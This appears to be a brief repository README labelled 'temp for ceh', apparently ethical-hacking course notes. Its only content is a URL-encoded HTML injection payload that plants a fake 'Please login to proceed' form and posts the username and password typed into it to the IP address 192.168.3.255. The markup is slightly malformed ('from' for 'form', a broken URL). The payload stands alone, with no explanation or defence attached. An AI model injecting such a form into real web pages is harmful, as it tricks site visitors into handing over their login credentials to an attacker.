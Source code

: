 # temp
temp for ceh



<h3>Please%20login%20to%20proceed</h3>%20<from%20action=http:192.168.3.255>Username:<br>%20<input%20type="username"%20name="username">%20</br>Password:<br><input%20type="password"%20name="password"></br>%20<br><input%20type="submit"%20value="Login"></br>
